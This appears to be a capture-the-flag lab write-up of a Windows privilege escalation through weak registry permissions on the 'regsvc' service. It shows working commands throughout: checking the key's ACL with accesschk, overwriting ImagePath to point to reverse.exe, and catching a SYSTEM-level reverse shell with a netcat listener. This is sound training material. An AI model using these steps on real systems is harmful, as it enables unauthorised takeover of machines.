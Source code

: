 ## weak registry permissions

Let's investigate `regsvc` service:

```bash
C:\Users\user>sc qc regsvc
sc qc regsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

```

It is running as SYSTEM.

Using `accesschk.exe`, note that the registry entry for the regsvc service is writable by the `NT AUTHORITY\INTERACTIVE` group (essentially all logged-on users):

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS
```

Overwrite the ImagePath registry key to point to the reverse.exe executable you created:

```
C:\Users\user>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
The operation completed successfully.
```

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```bash
joshua@kaligra:~/Documents/thm/windows10privesc$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.8.100.14] from (UNKNOWN) [10.10.174.134] 49850
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```
